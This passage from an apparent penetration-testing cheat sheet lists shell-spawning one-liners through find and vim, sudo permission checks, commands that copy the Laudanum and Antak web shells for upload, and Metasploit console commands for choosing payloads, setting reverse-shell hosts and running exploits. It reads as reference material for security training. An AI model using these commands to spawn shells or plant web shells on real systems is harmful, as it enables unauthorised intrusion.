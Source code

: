 | `find . -exec /bin/sh \; -quit` | This use of the find command uses the execute option (-exec) to initiate the shell interpreter directly. If find can't find the specified file, then no shell will be attained. |
| `vim -c ':!/bin/sh'` | We can set the shell interpreter language from within the popular command-line-based text-editor VIM. |
| `ls -la <path/to/fileorbinary>` | We can also attempt to run this command to check what sudo permissions the account we landed on has |
| `sudo -l` | The sudo -l command above will need a stable interactive shell to run. If you are not in a full shell or sitting in an unstable shell, you may not get any return from it. |

### Laudanum, One Webshell To Rule Them All 

|**Commands** |**Description**|
|---|---|
| `cp /usr/share/webshells/laudanum/aspx/shell.aspx /home/tester/demo.aspx` | Move a Copy for Modification Laudanum Webshell |

### Antak Webshell

|**Commands** |**Description**|
|---|---|
| `cp /usr/share/nishang/Antak-WebShell/antak.aspx /home/administrator/Upload.aspx` | Move a Copy for Modification ANTAK WEBSHELL |

---

# Using the Metasploit Framework

### MSFconsole Commands 

| **Command**        | **Description**                                                  |
| :--------------- | :----------------------------------------------------------- |
| `show exploits` | Show all exploits within the Framework.                      |
| `show payloads`  | Show all payloads within the Framework.                      |
| `show auxiliary` | Show all auxiliary modules within the Framework.             |
| `search <name>` | Search for exploits or modules within the Framework.         |
| `info`         | Load information about a specific exploit or module.         |
| `use <name>` | Load an exploit or module (example: use windows/smb/psexec). |
| `use <number>` | Load an exploit by using the index number displayed after the search <name> command. |
| `LHOST`        | Your local host’s IP address reachable by the target, often the public IP address when not on a local network. Typically used for reverse shells. |
| `RHOST`        | The remote host or the target. set function Set a specific value (for example, LHOST or RHOST). |
| `setg <function>` | Set a specific value globally (for example, LHOST or RHOST). |
| `show options` | Show the options available for a module or exploit.          |
| `show targets` | Show the platforms supported by the exploit.                 |
| `set target <number>` | Specify a specific target index if you know the OS and service pack. |
| `set payload <payload>` | Specify the payload to use. |
| `set payload <number>` | Specify the payload index number to use after the show payloads command. |
| `show advanced` | Show advanced options. |
| `set autorunscript migrate -f` | Automatically migrate to a separate process upon exploit completion. |
| `check` | Determine whether a target is vulnerable to an attack. |
| `exploit` | Execute the module or exploit and attack the target. |
| `exploit -j` | Run the exploit under the context of the job. (This will run the exploit in the background.) |